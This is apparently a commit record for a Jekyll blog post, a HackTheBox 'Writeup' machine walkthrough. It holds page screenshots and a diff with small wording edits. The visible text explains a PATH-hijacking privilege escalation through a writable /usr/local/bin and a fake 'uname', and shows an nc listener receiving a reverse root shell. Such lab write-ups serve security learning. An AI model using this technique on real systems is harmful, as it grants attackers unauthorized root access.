

Before and after one commit to JoeNibe/JoeNibe.github.io, a Jekyll site: the page built from _posts/htb/2019-10-26-writeup.md, in a window 1280 px wide and 1400 px high, scrolled down 13799 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
Update 2019-10-26-writeup.md

````diff
--- a/_posts/htb/2019-10-26-writeup.md
+++ b/_posts/htb/2019-10-26-writeup.md
@@ -378,7 +378,7 @@
 2019/10/26 01:45:10 CMD: UID=0    PID=2199   | sshd: [accepted]
 2019/10/26 01:45:10 CMD: UID=0    PID=2200   | sshd: [accepted]
 2019/10/26 01:45:16 CMD: UID=0    PID=2201   | sshd: jkr [priv]
-2019/10/26 01:45:16 CMD: UID=0    PID=2202   | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
+2019/10/26 01:45:16 CMD: UID=0 PID=2202   |sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
 run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new
 2019/10/26 01:45:16 CMD: UID=0    PID=2203   | run-parts --lsbsysinit /etc/update-motd.d
 2019/10/26 01:45:16 CMD: UID=0    PID=2204   | /bin/sh /etc/update-motd.d/10-uname
@@ -411,8 +411,8 @@
 drwx-wsr-x  2 root staff 20480 Oct 25 20:54 bin
 drwx-wsr-x  2 root staff 12288 Oct 26 01:48 sbin
 ```
-These directories are writable and they are at higher position in `PATH` variable. So if we create a file named `uname` in this path, the system will
-execute its contents as root. So we can run any code we want.
+These directories are writable and they are at a higher position in `PATH` variable. So if we create a file named `uname` in this path, the system will
+execute its contents as root. So we can run any code we want as root.
 
 ## Root shell
 ```bash
@@ -425,7 +425,7 @@
 root@kali:~# nc -lvp 8081
 listening on [any] 8081 ...
 connect to [10.10.14.85] from ip-10-10-10-138.ap-south-1.compute.internal [10.10.10.138] 40924
-/bin/sh: 0: can't access tty; job control turned off
+/bin/sh: 0: cant access tty; job control turned off
 # id
 uid=0(root) gid=0(root) groups=0(root)
 # cat /root/root.txt
````
Also changed, not shown: other parts of _posts/htb/2019-10-26-writeup.md (+3 -3 lines).
